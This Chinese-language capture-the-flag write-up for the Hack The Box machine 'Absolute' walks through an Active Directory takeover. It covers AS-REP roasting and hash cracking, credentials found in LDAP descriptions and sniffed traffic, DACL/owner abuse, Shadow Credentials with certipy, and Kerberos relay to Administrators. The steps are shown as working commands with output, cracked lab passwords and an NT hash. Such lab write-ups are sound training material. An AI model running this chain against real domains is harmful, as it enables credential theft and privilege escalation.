





## 00. 摘要

> 关键词：信息泄露、ASREProast、LDAP侦察、Shadow Credentials、Kerberos Relay

1. 从网站的图片EXIF数据中提取出用户名清单
2. 使用 ASREProast 攻击，获得有效的域用户，并获得 `d.klay` 用户的 TGT
3. 爆破该 TGT 得到 `d.klay` 的密码
4. 信息收集，得到 `svc_smb` 账户，并使用 `d.klay` 账户收集Bloodhound数据备用
5. 信息收集，得到 `test.exe`
6. 运行 `test.exe`，并使用 `Wireshark` 监听网络流量，得到 `m.lovegod` 账户
7. 分析 Bloodhound数据
	1. `m.lovegod` 账户 **Owns** `Network Audit` 组
	2. `Network Audit` 组 **GenericWrite** `winrm_user` 账户
8. 将 `m.lovegod` 账户添加到`Network Audit` 组，然后使用 `Shadow Credentials` 攻击拿下 `winrm_user` 账户
9.  使用 Kerberos Relay 将 `winrm_user` 添加到`Administrators`组，获得管理员权限

## 01. 信息收集

使用 `rustscan` 进行端口扫描，发现如下开放端口

```bash
kali@kali[~]$ rustscan -u 5000 -a 10.10.11.181
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Making sure 'closed' isn't just a state of mind.

[~] The config file is expected to be at "/home/player/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.181:53
Open 10.10.11.181:80
Open 10.10.11.181:88
Open 10.10.11.181:135
Open 10.10.11.181:139
Open 10.10.11.181:389
Open 10.10.11.181:445
Open 10.10.11.181:464
Open 10.10.11.181:593
Open 10.10.11.181:636
Open 10.10.11.181:3268
Open 10.10.11.181:3269
Open 10.10.11.181:5985
Open 10.10.11.181:47001
Open 10.10.11.181:49665
Open 10.10.11.181:49664
Open 10.10.11.181:49666
Open 10.10.11.181:49667
Open 10.10.11.181:49672
Open 10.10.11.181:49674
Open 10.10.11.181:49675
Open 10.10.11.181:49686
Open 10.10.11.181:49687
Open 10.10.11.181:49701
Open 10.10.11.181:49712
Open 10.10.11.181:49718
```

## 02. 使用Guest账户枚举 SMB服务

在没有任何账户的情况下，尝试使用Windows内置的Guest账户枚举SMB文件共享

```bash
kali@kali[~]$ netexec smb 10.10.11.181 -u "Guest" -p "" --shares
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\Guest: STATUS_ACCOUNT_DISABLED
```

看到 `STATUS_ACCOUNT_DISABLED` 报错，表示 `Guest` 账户并没有启用。

## 03. HTTP服务信息收集

然后我们访问 `http://10.10.11.181/` 经过一番收集，没有发现有用的线索。后来看了官方提示之后，才发现要从网页的 jpg 图片中找线索。

> [!note]
> 这个操作乍一看非常脑洞，本着实事求是的态度。尝试搜索了一下实战中是否真能用上这操作。还真找到了实战案例。感兴趣可以读一下下面两个案例
> 1. Gitlab中group logo的Exif数据泄露敏感信息( 赏金: 500美元 )( https://hackerone.com/reports/446238 )
> 2. IRCCloud 用户上传的图片的Exif数据泄露地理位置( 赏金: 200美元 )( https://hackerone.com/reports/906907 )

我们下载网页里所有的图片，然后使用 `exiftool` 提取图片中的元数据，获得图片所有者的姓名。然后根据姓名，生成一份用户名字典。再通过枚举Kerberos预认证得到有效的用户名称。

1. 从网页图片中获取作者姓名：`exiftool *.jpg | grep Author`
2. 根据姓名，生成一份用户名字典：`username-anarchy --input-file Author.txt > usernames_list.txt`
3. 使用 Kerberos 预认证验证有效的用户名：`impacket-GetNPUsers absolute.htb/ -usersfile usernames_todo.txt | grep -v "Client not found in Kerberos database"`

```bash
kali@kali[~]$ impacket-GetNPUsers absolute.htb/ -usersfile usernames_todo.txt | grep -v "Client not found in Kerberos database"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User j.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@ABSOLUTE.HTB:da75935648dce608492a9bfef50ce5ee$f7c32f2f3065d60b09f68a42448056398c60720b50d4574d8ecd65a0fefb1cb3be2c30e776d7aed8787f6f9c700da00a772908082dc887741d4e5e45d38f0024a08bba2f7ba4d164b57bf9c7c3e89c6edc512a529e6bace818ca5d5fe4f39417888bb6ee92b940aaf5fc65cd215ca8a9bba634cb8c21fb548e3d0df38add66453d0e5856e9b685bc5c394b12792ade8aebc96be6a0d71fdfae86ad9c2784eafbbabd62e47e3bf080d42f43fb545bc26f61ecb327cfbb6c29526e18313a8e42eef1cf17806d2e08731995dd9012aac5af8bf1a7048b63e9963a50dd19b51c9b0b6cb25b902612d6469e5474e9
[-] User s.osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

我们得到了一份有效的域用户的用户名

```
j.roberts
m.chaffrey
d.klay
s.osvald
j.robinson
n.smith
```

同时，`impacket-GetNPUsers` 会记录下无需进行Kerberos预认证的账户所获取到的TGT (这也就是所谓的 ASREProast攻击)。我们使用 `john` 爆破得到的 TGT，得到了 `d.klay` 用户的明文密码：

```bash
kali@kali[~]$ john hash --wordlist=/usr/share/wordlists/rockyou.txt       
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Darkmoonsky248girl ($krb5asrep$23$d.klay@ABSOLUTE.HTB)     
1g 0:00:01:12 DONE (2025-03-10 15:04) 0.01379g/s 154983p/s 154983c/s 154983C/s DarrenCahppell..DarkAngelNinjaHaku
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

```
username: d.klay
password: Darkmoonsky248girl
```

使用 `d.klay` 账户进行枚举

```bash
kali@kali[~]$ netexec smb 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl'                                         
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\d.klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
```

发现报错 `STATUS_ACCOUNT_RESTRICTION` 说明，该账户限制了不允许使用NTLM进行认证，只能使用 Kerberos 进行认证

我们申请一张该用户的 TGT，以用于后续操作
```bash
kali@kali[~]$ impacket-getTGT 'absolute.htb'/'d.klay':'Darkmoonsky248girl' 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in d.klay.ccache
```

使用申请到的TGT再次尝试枚举服务，发现已经可以成功访问

```bash
kali@kali[~]$ export KRB5CCNAME=d.klay.ccache
kali@kali[~]$ netexec smb 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl' -k                                      
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
```

使用该账户收集一份Bloodhound数据备用

```bash
kali@kali[~]$ export KRB5CCNAME=d.klay.ccache
kali@kali[~]$ rusthound -d 'absolute.htb' -u 'd.klay' -z -k -f dc.absolute.htb
---------------------------------------------------
Initializing RustHound at 13:00:22 on 03/27/25
Powered by g0h4n from OpenCyber
---------------------------------------------------

[2025-03-27T20:00:22Z INFO  rusthound] Verbosity level: Info
[2025-03-27T20:00:23Z INFO  rusthound::ldap] Connected to ABSOLUTE.HTB Active Directory!
[2025-03-27T20:00:23Z INFO  rusthound::ldap] Starting data collection...
[2025-03-27T20:00:23Z INFO  rusthound::ldap] All data collected for NamingContext DC=absolute,DC=htb
[2025-03-27T20:00:23Z INFO  rusthound::json::parser] Starting the LDAP objects parsing...
[2025-03-27T20:00:23Z INFO  rusthound::json::parser] Parsing LDAP objects finished!
[2025-03-27T20:00:23Z INFO  rusthound::json::checker] Starting checker to replace some values...
[2025-03-27T20:00:23Z INFO  rusthound::json::checker] Checking and replacing some values finished!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 18 users parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 63 groups parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 1 computers parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 1 ous parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 1 domains parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 2 gpos parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 21 containers parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] .//20250327130023_absolute-htb_rusthound.zip created!

RustHound Enumeration Completed at 13:00:23 on 03/27/25! Happy Graphing!
```

继续使用这个账户进行枚举，在ldap枚举的时候发现了 `smb_svc` 账户

```bash
kali@kali[~]$ netexec ldap 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl' -k --users 
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.181    389    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
LDAP        10.10.11.181    389    DC               [*] Enumerated 17 domain users: absolute.htb
LDAP        10.10.11.181    389    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
LDAP        10.10.11.181    389    DC               Administrator                 2022-06-09 08:25:57 0       Built-in account for administering the computer/domain      
LDAP        10.10.11.181    389    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain    
LDAP        10.10.11.181    389    DC               krbtgt                        2022-06-09 08:16:38 0       Key Distribution Center Service Account                     
LDAP        10.10.11.181    389    DC               J.Roberts                     2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               M.Chaffrey                    2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               D.Klay                        2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               s.osvald                      2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               j.robinson                    2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               n.smith                       2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               m.lovegod                     2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               l.moore                       2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               c.colt                        2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               s.johnson                     2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               d.lemm                        2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               svc_smb                       2022-06-09 08:25:51 0       AbsoluteSMBService123!                                      
LDAP        10.10.11.181    389    DC               svc_audit                     2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               winrm_user                    2022-06-09 08:25:51 2       Used to perform simple network tasks
```

```
username: svc_smb
password: AbsoluteSMBService123!
```


使用这个账户枚举 smb 服务，发现可以读取 `Shared` 文件共享

```bash
kali@kali[~]$ netexec smb 10.10.11.181 -u 'svc_smb' -p 'AbsoluteSMBService123!' -k --shares 
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123! 
SMB         10.10.11.181    445    DC               [*] Enumerated shares
SMB         10.10.11.181    445    DC               Share           Permissions     Remark
SMB         10.10.11.181    445    DC               -----           -----------     ------
SMB         10.10.11.181    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.181    445    DC               C$                              Default share
SMB         10.10.11.181    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.181    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.181    445    DC               Shared          READ            
SMB         10.10.11.181    445    DC               SYSVOL          READ            Logon server share 
```

我们在这个文件共享中，找到了两个文件，下载下来

```bash
kali@kali[~]$ impacket-smbclient 'absolute.htb'/'svc_smb':'AbsoluteSMBService123!'@dc.absolute.htb -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
Type help for list of commands
# use Shared
# ls
drw-rw-rw-          0  Thu Sep  1 10:02:23 2022 .
drw-rw-rw-          0  Thu Sep  1 10:02:23 2022 ..
-rw-rw-rw-         72  Thu Sep  1 10:02:23 2022 compiler.sh
-rw-rw-rw-      67584  Thu Sep  1 10:02:23 2022 test.exe
# get compiler.sh
# get test.exe
```

尝试运行一下 test.exe 
```cmd
C:\Users\Lamber\Desktop>.\test.exe

C:\Users\Lamber\Desktop>
```

发现没有任何输出，我们尝试用wireshark监听下网卡流量



发现有流量尝试访问 `dc.absolute.htb` ，我们在 `C:\Windows\System32\drivers\etc\hosts` 配置一下域名解析，让其正确解析到靶场IP

我们以管理员权限打开一个cmd，然后将域名解析写入 hosts 文件。
```cmd
C:\Users\Lamber>echo 10.10.11.181 dc.absolute.htb > C:\Windows\System32\drivers\etc\hosts
```



再次抓包（这次需要使用和靶场同网段的网络接口抓包）



发现了一个叫 `mlovegod` 的账户，尝试使用这个账户枚举服务，发现都失败了。查看上文枚举得到的用户名，发现该账户的正确用户名应该是 `m.lovegod`。在进行一下枚举，发现该账户有效。

```
username: m.lovegod
password: AbsoluteLDAP2022!
```

## 04. Bloodhound信息收集与分析




# 04. 从 m.lovegod 到 winrm_user

### 01.  将 `m.lovegod` 添加到 `Network Audit` 组

```bash
kali@kali[~]$ impacket-getTGT 'absolute.htb'/'m.lovegod':'AbsoluteLDAP2022!' -dc-ip dc.absolute.htb

kali@kali[~]$ export KRB5CCNAME=m.lovegod.ccache
kali@kali[~]$ kinit -c m.lovegod.ccache

kali@kali[~]$ impacket-owneredit -k -no-pass absolute.htb/m.lovegod -dc-ip dc.absolute.htb -new-owner m.lovegod -target 'Network Audit' -action write
[*] Current owner information below
[*] - SID: S-1-5-21-4078382237-1492182817-2568127209-1109
[*] - sAMAccountName: m.lovegod
[*] - distinguishedName: CN=m.lovegod,CN=Users,DC=absolute,DC=htb
[*] OwnerSid modified successfully!

kali@kali[~]$ impacket-dacledit -k -no-pass absolute.htb/m.lovegod -dc-ip dc.absolute.htb -principal m.lovegod -target "Network Audit" -action write -rights FullControl  
[*] DACL backed up to dacledit-20250325-143042.bak
[*] DACL modified successfully!

kali@kali[~]$ net rpc group addmem "Network Audit" m.lovegod -U 'absolute.htb'/'m.lovegod'%'AbsoluteLDAP2022!' --use-kerberos=required -S dc.absolute.htb

kali@kali[~]$ net rpc group members "Network Audit" -U 'absolute.htb'/'m.lovegod'%'AbsoluteLDAP2022!' --use-kerberos=required -S dc.absolute.htb
```


### 02. Shadow Credentials攻击拿到winrm_user

```bash
kali@kali[~]$ certipy-ad shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb -account winrm_user
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '8b1c81f7-6779-73c5-b4ae-84e1cbe337d9'
[*] Adding Key Credential with device ID '8b1c81f7-6779-73c5-b4ae-84e1cbe337d9' to the Key Credentials for 'winrm_user'
[-] Could not update Key Credentials for 'winrm_user' due to insufficient access rights: 00002098: SecErr: DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0


kali@kali[~]$ impacket-getTGT 'absolute.htb'/'m.lovegod':'AbsoluteLDAP2022!' -dc-ip dc.absolute.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in m.lovegod.ccache

kali@kali[~]$ certipy-ad shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb -account winrm_user
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '87445117-ccb6-17ea-abf3-fcfca405400e'
[*] Adding Key Credential with device ID '87445117-ccb6-17ea-abf3-fcfca405400e' to the Key Credentials for 'winrm_user'
[*] Successfully added Key Credential with device ID '87445117-ccb6-17ea-abf3-fcfca405400e' to the Key Credentials for 'winrm_user'
[*] Authenticating as 'winrm_user' with the certificate
[*] Using principal: winrm_user@absolute.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_user.ccache'
[*] Trying to retrieve NT hash for 'winrm_user'
[*] Restoring the old Key Credentials for 'winrm_user'
[*] Successfully restored the old Key Credentials for 'winrm_user'
[*] NT hash for 'winrm_user': 8738c7413a5da3bc1d083efc0ab06cb2

kali@kali[~]$ export KRB5CCNAME=winrm_user.ccache

kali@kali[~]$ evil-winrm -i dc.absolute.htb -r ABSOLUTE.HTB

```

## 05. Kerberos Relay提权

```bash
kali@kali[~]$ .\CheckPort.exe

kali@kali[~]$ .\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10

kali@kali[~]$ .\runascs.exe winrm_user -d absolute.htb TotallyNotACorrectPassword -l 9 "qwinsta"

kali@kali[~]$ .\runascs.exe winrm_user -d absolute.htb TotallyNotACorrectPassword -l 9 "C:\Users\winrm_user\Documents\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10"

kali@kali[~]$ .\runascs.exe winrm_user -d absolute.htb TotallyNotACorrectPassword -l 9 "C:\Users\winrm_user\Documents\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10 -add-groupmember Administrators winrm_user"

```


---

## 参考链接
1. 文章：ASREPRoast攻击
   https://www.thehacker.recipes/ad/movement/kerberos/asreproast
2. 文章：RID爆破
   https://www.thehacker.recipes/ad/recon/ms-rpc#rid-cycling
3. 文章：使用 Kerberos 进行中继攻击
   https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html
4. 文章：Windows 漏洞利用技巧：中继 DCOM 身份认证
   https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html
5. 工具：NetExec
   https://github.com/Pennyw0rth/NetExec
6. 工具：Impacket
   https://github.com/fortra/impacket
7. 工具：evil-winrm
   https://github.com/Hackplayers/evil-winrm
8. 工具：RustScan
   https://github.com/RustScan/RustScan
9. 工具：Responder
   https://github.com/SpiderLabs/Responder
10. 工具：Certipy
   https://github.com/ly4k/Certipy
11. 工具：KrbRelay
    https://github.com/cube0x0/KrbRelay
12. 工具：RunasCs
    https://github.com/antonioCoco/RunasCs
